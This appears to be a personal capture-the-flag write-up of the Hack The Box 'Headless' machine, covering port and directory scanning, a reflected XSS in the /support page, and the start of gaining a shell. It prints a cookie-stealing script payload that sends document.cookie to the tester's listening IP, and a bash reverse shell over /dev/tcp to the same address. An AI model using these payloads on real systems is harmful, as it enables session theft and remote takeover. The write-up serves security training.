 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(118).png)

`Headless` is an easy machine in HTB.

### Recon
### Nmap scan
`Nmap` detects two open ports on headless: ssh (80) and http UPnP(5000). Port 5000  seems to return a web page under construction.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(121).png)

Then added headless to /etc/host and proceeded to navigate to the website `http://headless.htb:5000`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(122).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(150).png)

### Directory Search

I used `ffuf` to search directories in headless.htb.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(123).png)

I got two directories: /dashboard which was restricted and /support. I navigated to /support directory

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(124).png)

The `/support` URI allows payload injection, triggering a hacking protection alert. The application replies with user HTTP request header info, indicating a potential reflected-XSS vulnerability.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(125).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(126).png)

### User flag

### Cookie stealing
I looked for how to steal cookies and found this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e). First, I initiated a Python server on port 1234 using the command:

`python3 -m http.server 1234`

Then, I captured an HTTP request and sent it to Repeater. 
Within Repeater, I injected a cookie-stealing payload into reflected headers like "User-Agent", "Accept" and "message" until I got a response. 

`<script>var i=new Image(); i.src="http://10.10.14.21:1234/?cookie="+btoa(document.cookie);</script>`

I repeated this process until the server intercepted and processed the injected payload.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(130).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(131).png)

After setting the accept field to the payload, my server intercepted the cookie, which was encoded in base64. I then proceeded to decode the cookie to reveal its contents.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(140).png)

Now that I obtained the desired cookie, I returned to `/dashboard` and intercepted the request in Burp Suite. I replaced the original cookie with the one we discovered.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(134).png)

I forwarded the request and got this page.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(133).png)

I attempted to gain access to a shell while being behind a protected page. To do so, I created a payload file named `shell.sh` containing the following code:

`/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.21/1333 0>&1'`

Then set up a listener on port 1333

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(141).png)

With the server still running on port 1234, I requested the payload file `shell.sh` from my machine to the target server.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(138).png)















